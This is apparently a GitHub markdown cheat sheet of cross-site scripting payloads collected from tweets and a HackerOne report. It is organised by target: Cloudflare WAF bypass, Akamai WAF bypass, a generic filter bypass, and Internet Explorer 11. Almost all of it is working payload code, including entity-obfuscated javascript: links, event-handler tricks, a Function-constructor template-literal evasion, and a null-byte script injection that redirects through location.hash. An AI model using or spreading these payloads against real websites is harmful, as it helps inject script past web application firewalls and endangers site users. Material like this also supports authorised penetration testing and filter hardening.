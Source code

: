 # XSS Twitter Tips

## Cloudflare XSS Bypass

*[Tweet](https://twitter.com/aisecureme/status/1240354605520678913) By [AISECUREME](https://twitter.com/aisecureme)*

```html
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```
----------------------------------------------------------------------------------------

*[Tweet](https://twitter.com/s0md3v/status/1100734547962998785) By [s0md3v](https://twitter.com/s0md3v)*
```html
<a"/onclick=(confirm)()>Click Here!
```


## Akamai XSS Bypass

*[Tweet](https://twitter.com/aisecureme/status/1240354605520678913) By [AISECUREME](https://twitter.com/aisecureme)*
```html
“><svg/on</script>laod=alert>
```
----------------------------------------------------------------------------------------

*[Tweet](https://twitter.com/saamux/status/1238449598051516418) By [saamux](https://twitter.com/saamux)*

A good way to bypass the Akamai WAF by exploiting a redirect-based XSS is with the following payload:

```javascript
javascript:new%20Function`al\ert\`1\``;
```
You can also obfuscate it using HTML entities

## WAF/filter Bypass
[Tweet](https://twitter.com/si9int/status/1239633166438223874) By [si9int](https://twitter.com/si9int)
![XSS](https://images-ext-1.discordapp.net/external/igR8oewSZci1zKzKoqk0xr9PunkJoDHTmGgLLi6FYfw/https/pbs.twimg.com/media/ETQPvU3WoAMiDBw.png%3Alarge)

## IE Bypass

IE 11 Xss Bypass [h1 report](https://hackerone.com/reports/127259) by [sergeym](https://hackerone.com/sergeym)

```html
"</script><script/%00%00v%00%00>document.location.href=location.hash.slice(1)</script>#javascript:alert(document.domain)
